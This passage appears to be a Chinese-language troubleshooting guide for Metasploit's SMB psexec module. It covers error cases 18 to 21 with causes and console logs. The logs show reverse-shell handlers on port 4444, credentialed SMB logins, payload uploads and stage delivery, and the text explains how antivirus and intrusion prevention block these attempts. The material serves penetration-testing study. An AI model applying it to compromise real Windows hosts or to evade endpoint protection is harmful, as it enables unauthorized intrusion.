 

### (18) Hata Mesajı Yok

报错原因：由于重定向或其他原因，受害计算机与攻击者计算机之间没有连接。尽管相关共享（对于此示例为ADMIN $，但对于其他无权访问services.exe的共享则更合乎逻辑）具有写入/读取权限，但如果该服务未经授权，也可能会收到此错误。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...[*] Uploading payload...[*] Created \dwgbefJq.exe...[*] Deleting \dwgbefJq.exe...
```



### (19) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND

报错原因：目标主机上有类似防病毒的系统，所以无法正常工作，与（17）的报错有点相似。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.103:445|WORKGROUP as user 'administrator'...[*] Uploading payload...[*] Created \quVtTqcy.exe...[*] Deleting \quVtTqcy.exe...[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=6 WordCount=0)
```



### (20) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_SHARING_VIOLATION

报错原因：目标主机上有类似防病毒的系统，文件可能已被隔离，所以无法正常工作。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...[*] Uploading payload...[*] Created \rcErXTSH.exe...[*] Deleting \rcErXTSH.exe...[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_SHARING_VIOLATION (Command=6 WordCount=0)
```



### (21) Symantec Endpoint Protection

报错原因：能够正常工作，但是由于目标主机上运行着Symantec Endpoint Protection并开启着网络入侵防护功能（Network Intrusion Prevention），所以不能获取一个完整Session，流量检测！

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.109:445 as user 'administrator'...[*] Selecting PowerShell target[*] Executing the payload...[+] Service start timed out, OK if running a command or non-service executable...[*] Sending stage (205891 bytes) to 192.168.1.109[*] Sending stage (205891 bytes) to 192.168.1.109[*] Sending stage (205891 bytes) to 192.168.1.109[*] Sending stage (205891 bytes) to 192.168.1.109[...SNIP...]
```
